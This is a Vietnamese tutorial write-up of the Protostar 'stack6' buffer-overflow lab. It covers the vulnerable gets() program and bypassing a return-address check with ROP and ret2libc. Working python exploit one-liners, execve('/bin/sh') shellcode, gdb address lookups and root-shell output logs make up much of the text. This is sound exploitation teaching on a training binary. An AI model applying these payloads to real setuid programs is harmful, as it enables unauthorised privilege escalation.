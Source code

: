 ```yaml
---
layout: post
title: stack6
---
```

Trong bài trước, chúng ta đã học cách inject code và điều hướng chương trình để đoạn code này được thực thi.
Bài này sẽ nâng độ khó lên một chút bằng cách giới hạn giá trị `eip` của caller.
Hãy cùng xem source code và asm code của chương trình như sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
```asm
0x08048484 <getpath+0>: push   ebp
0x08048485 <getpath+1>: mov    ebp,esp
0x08048487 <getpath+3>: sub    esp,0x68
0x0804848a <getpath+6>: mov    eax,0x80485d0
0x0804848f <getpath+11>:        mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    eax,ds:0x8049720
0x0804849c <getpath+24>:        mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:        and    eax,0xbf000000
0x080484bd <getpath+57>:        cmp    eax,0xbf000000
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    eax,0x80485e4
0x080484c9 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:        mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    eax,0x80485f0
0x080484e9 <getpath+101>:       lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:       mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave
0x080484f9 <getpath+117>:       ret
0x080484fa <main+0>:    push   ebp
0x080484fb <main+1>:    mov    ebp,esp
0x080484fd <main+3>:    and    esp,0xfffffff0
0x08048500 <main+6>:    call   0x8048484 <getpath>
0x08048505 <main+11>:   mov    esp,ebp
0x08048507 <main+13>:   pop    ebp
0x08048508 <main+14>:   ret

```
Hàm `getpath` không cho phép `eip` của caller có dạng `0xbf??????`, tương đương với địa chỉ của bộ nhớ stack.
Do vậy, kỹ thuật của bài trước sẽ cần phải thay đổi.

Về cơ bản, đoạn code inject vào chương trình được lưu trong stack.
Do vậy, chúng ta vẫn sẽ cần điều hướng chương trình đến bộ nhớ này.
Để làm được điều này, ta sẽ dùng một kỹ thuật có tên "Return-Oriented Programming" (ROP).
Mục tiêu của kỹ thuật này là điều hướng chương trình đến nhưng đoạn code có sẵn nằm trong vùng cho phép thực thi (ví dụ trong vùng .text của asm, và không phải trên stack).
Việc điều hướng có thể được thực hiện nhiều lần có tính toán, khiến chương trình thực thi một chuỗi lệnh.

Sau đây là một ví dụ của ROP.
Chúng ta sẽ thực hiện overflow cho `buffer` như bài trước để inject code và ghi đè `eip` của caller.
Lần này chúng ta sẽ điều hướng `eip` đến một lệnh `ret` bất kỳ có sẵn trong chương trình chính.
Khi lệnh `ret` này được thực thi, giá trị tại `esp` sẽ được `pop` sang `eip`.
Dựa vào dự đoán này, ta sẽ ghi đè thêm 4 byte ngay sau `eip` mới.
4 byte này chính là địa chỉ của đoạn code đã được inject.
Nó có thể nằm trên stack.
```bash
python -c "print '\xcc' * 64 + '\xcc' * 4 + '\xcc' * 8 + '\xcc' * 4 + '\xf9\x84\x04\x08' + '\x6c\xf7\xff\xbf'" > input.txt
```
Đoạn script trên ghi đè lên 64 byte giá trị `buffer`, 4 byte giá trị biến `ret`, 8 byte padding, 4 byte `eip` mới của caller, và 4 byte địa chỉ injected code.
Sau đây là bộ nhớ trước và sau `gets`.
Phân biệt <span style="color:aqua">buffer</span>, <span style="color:orangered">eip mới của caller</span>, và <span style="color:springgreen">địa chỉ điều hướng về injected code</span>.
<pre class="memory">
0xbffff730:     0xbffff74c      0x00000000      0xb7fe1b28      0x00000001
0xbffff740:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xb7f0186e</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080496ec</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x0804835c</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080496ec</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048539</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048520</span>      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0xbffff7a8      <span style="color:orangered">0x08048505</span>
0xbffff7a0:     0x08048520      0x00000000      0xbffff828      0xb7eadc76
</pre>
<pre class="memory">
0xbffff730:     0xbffff74c      0x00000000      0xb7fe1b28      0x00000001
0xbffff740:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xcccccccc</span>
0xbffff750:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      0xcccccccc
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      <span style="color:orangered">0x080484f9</span>
0xbffff7a0:     <span style="color:springgreen">0xbffff76c</span>      0x00000000      0xbffff828      0xb7eadc76
</pre>
Chương trình sẽ chạy bình thường cho đến lệnh `ret` của hàm `getpath`.
Sau đó, chương trình sẽ được điều hướng đến lệnh `ret` của `getpath` một lần nữa.
Địa chỉ của đoạn injected code lúc này được `pop` vào `eip` và đoạn code này được thực thi.
Sau đây là chuỗi chương trình được ghép lại để bạn dễ hình dung.
<pre class="memory">
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
...
0x080484f8 <getpath+116>:       leave
0x080484f9 <getpath+117>:       ret
<span style="color:orangered">0x080484f9 <getpath+117>:       ret</span>
<span style="color:springgreen">0xbffff76c:                     int3</span>
</pre>
Lưu ý, đoạn injected code trong ví dụ chỉ là trap breakpoint.
Chúng ta có thể sử dụng shellcode và NOP-sled như phần tham khảo cuối bài.

Ngoài ROP, chúng ta cũng có thể sử dụng 1 phương pháp khác có tên ret2libc.
Phương pháp này có thể dùng để chống lại các phương thức bảo mật cao hơn như cấm thực thi lệnh lưu ngoài vùng cho phép.
Sau đây là ví dụ sử dụng hàm `system` trong libc để chạy các chương trình khác.
Để tìm ra địa chỉ của `system`, ta có thể chạy lệnh print trong gdb:

```bash
(gdb) b main
(gdb) run < input.txt
(gdb) print system
```
Hàm `system` cần thêm tham số là pointer đến chuỗi ký tự lệnh.
Ví dụ, nếu muốn chạy "/bin/sh", ta cần cung cấp địa chỉ của chuỗi này cho hàm `system`
Để tìm được địa chỉ chuỗi này, ta có thể dùng lệnh bash sau:
```bash
strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
```
Kết quả trả về sẽ bao gồm offset của chuỗi, `0x11f3bf`, so với địa chỉ của libc khi chương trình stack6 được chạy.
Muốn tìm địa chỉ của libc khi process đang chạy, hãy dùng lệnh sau trong gdb:
```bash
(gdb) info proc map
```
Ta nhận được địa chỉ của libc nằm tại `0xb7e97000`
Kết hợp offset và địa chỉ, chuỗi "/bin/sh" có thể tìm thấy tại `0xb7fb63bf`.
Sau cùng, giá trị `buffer` để làm tràn và exploit chương trình sẽ như sau:
```bash
python -c "print '\xcc' * 80 + '\xb0\xff\xec\xb7' + 'AAAA' + '\xbf\x63\xfb\xb7'" > input.txt
```
Giá trị này bao gồm 80 byte chung cho `buffer`, biến `ret`, `padding`, và `ebp` của caller.
4 byte tiếp theo dành cho `eip` mới của caller, sẽ chỉ đến hàm `system`.
4 byte tiếp theo là `eip` của hàm gọi hàm `system`, cụ thể trong ví dụ này chính là hàm `getpath`.
Tuy nhiên, chúng ta cũng không cần quan tâm giá trị này vì mục đích chính là exploit chương trình.
4 byte cuối là tham số cho hàm `system` và chính là địa chỉ của chuỗi có sẵn "/bin/sh".
Bộ nhớ sau `gets` sẽ như sau.
Phân biệt <span style="color:aqua">buffer</span>, <span style="color:orangered">eip mới của caller (địa chỉ libc system)</span>, <span style="color:yellow">eip sau khi return từ system</span>, và <span style="color:springgreen">tham số của system (địa chỉ của "/bin/sh")</span>.
<pre class="memory">
0xbffff730:     0xbffff74c      0x00000000      0xb7fe1b28      0x00000001
0xbffff740:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xcccccccc</span>
0xbffff750:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      0xcccccccc
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      <span style="color:orangered">0xb7ecffb0</span>
0xbffff7a0:     <span style="color:yellow">0x41414141</span>      <span style="color:springgreen">0xb7fb63bf</span>      0xbffff800      0xb7eadc76
</pre>

## Ref
```bash
user@protostar:~$ python -c "print 'ABC\x00' + '\x90' * 32 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\xf9\x84\x04\x08' + '\x70\xf7\xff\xbf'" > input.txt
user@protostar:~$ (cat input.txt; cat) | stack6
input path please: got path ABC
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
```bash
user@protostar:~$ python -c "print 'ABCD' + '\x00' * 76 + '\xb0\xff\xec\xb7' + 'AAAA' + '\xbf\x63\xfb\xb7'" > input.txt
user@protostar:~$ (cat input.txt; cat) | stack6
input path please: got path ABCD
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

Segmentation fault
```
```bash
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) run < input.txt
Starting program: /opt/protostar/bin/stack6 < input.txt

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```
```bash
(gdb) info proc map
process 11046
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```
```bash
user@protostar:~$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```
